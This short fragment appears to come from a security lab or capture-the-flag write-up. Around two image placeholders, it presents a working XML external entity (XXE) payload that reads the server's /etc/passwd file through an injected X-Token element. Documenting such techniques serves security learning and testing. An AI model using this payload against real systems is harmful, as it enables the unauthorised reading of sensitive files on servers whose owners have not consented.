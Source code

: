 ![image.png](image%2026.png)

**PAYLOAD:**

```jsx
<?xml version="1.0"?>
<!DOCTYPE data [ <!ELEMENT data ANY> <!ENTITY xxe SYSTEM "/etc/passwd" >]>
<data><X-Token>
&xxe;
</X-Token>
</data>
```

![image.png](image%2027.png)
